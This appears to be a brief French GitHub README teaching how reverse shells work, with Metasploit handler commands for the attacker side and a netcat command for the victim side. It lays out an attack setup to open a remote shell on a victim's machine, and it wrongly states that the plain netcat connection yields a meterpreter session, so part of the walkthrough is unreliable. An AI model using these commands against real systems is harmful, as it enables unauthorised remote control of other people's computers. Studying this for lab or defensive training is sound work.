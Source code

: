 # Reverse shell (shell inversé)

Payload : partie du programme qui s'execute côté client (charge utile)

## Description 
Dans une connection normal, le client (nous) envoie une requête au serveur qui lui
nous renvoie une réponse.

![ez](https://github.com/JohnDoeSensei/ReverseShell/blob/main/reverse1.PNG)


Le problème étant que le pare-feu bloque les connections entrantes.
Pour se faire, nous allons faire en sorte d'etre le serveur et la victime le client.
Notre propre machine va ecouter les connections sur un port et la victime va initié la 
connection avec nous. 

![ez](https://github.com/JohnDoeSensei/ReverseShell/blob/main/reverse2.PNG)

Vu que la victime demandera la connection avec notre serveur,
le pare feu ne bloquera pas une connection sortante (de l'interieur vers l'exterieur)
Une fois les deux devices connectés nous pouvons envoyer des commandes à distances 
et recupérer le resultat via les connections sortantes du payload.

![ez](https://github.com/JohnDoeSensei/ReverseShell/blob/main/reverse3.PNG)


## Server side (attacker machine) 
* <code>msfconsole </code>
* <code> use multi/handler </code>
* <code> set payload windows/meterpreter/reverse_tcp </code>
* <code> set lhost 192.168.1.XX </code> 
* <code> set lport 4444 </code>
* <code> run </code>

Ici nous avons créer un server en ecoute qui attends une connection entrante.
Il nous reste seulement a ce que le payload soit injecté dans la machine de la victime

## Client side  (Victim machine)

<code> nc 192.168.1.XX 4444 </code>

Ici on effectue une demande de connection vers notre server. 
On a créer une session meterpreter.
